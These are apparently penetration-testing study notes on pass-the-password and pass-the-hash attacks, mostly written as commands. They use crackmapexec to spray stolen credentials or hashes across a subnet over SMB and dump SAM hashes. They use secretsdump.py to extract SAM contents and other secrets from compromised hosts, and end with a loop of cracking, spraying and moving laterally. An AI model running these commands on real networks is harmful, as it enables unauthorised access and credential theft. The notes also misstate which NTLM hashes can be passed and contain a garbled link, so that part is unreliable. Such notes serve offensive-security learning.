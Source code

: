 # Pass Attacks

**Crackmapexec** uses the account and password you have compromised and uses it to attempt authentication to the subnet targeted via SMB protocol. You can also do this with a hash.

```jsx
crackmapexec smb <subnet> -u USER -d DOMAIN -p PASSWORD

crackmapexec smb <subnet> -u USER -d DOMAIN -H HASH --local-auth
```

If using a pass the hash approach it has to be NTLMv1, NTLMv2 does not work with passing the hash. NTLMv2 can be used with relay.

```jsx
crackmapexec smb <subnet> -u USER -d DOMAIN -H HASH --local-auth --sam
```

Adding the - - sam will dump the sam on that device into the database

```jsx
cmedb
```

This command will get you into the Crackmapexec database 

[**Secretsdump.](http://Secretsdumps.py)py**  this script allows a dump of the SAM of that device as well as all of the “secrets” if you have access to a compromised account.

```jsx
secretsdump.py DOMAIN/Username:'PASSWORD'@IPAddress
```

You can use this tool to try and run this account against different machines you have Pwned1 and dump the secrets of different devices

```jsx
secretsdump.py username:@IPAddress -hashes HASH
```

Above is to use a hash instead of a password

Pass Attack Takeaways:

The concept of shell access gain into a network is not exactly the real life scenario. Moving laterally across the network with hashes and accounts you find are your best friend. Get a hash, attempt to crack, spray password or hash, find different account, repeat.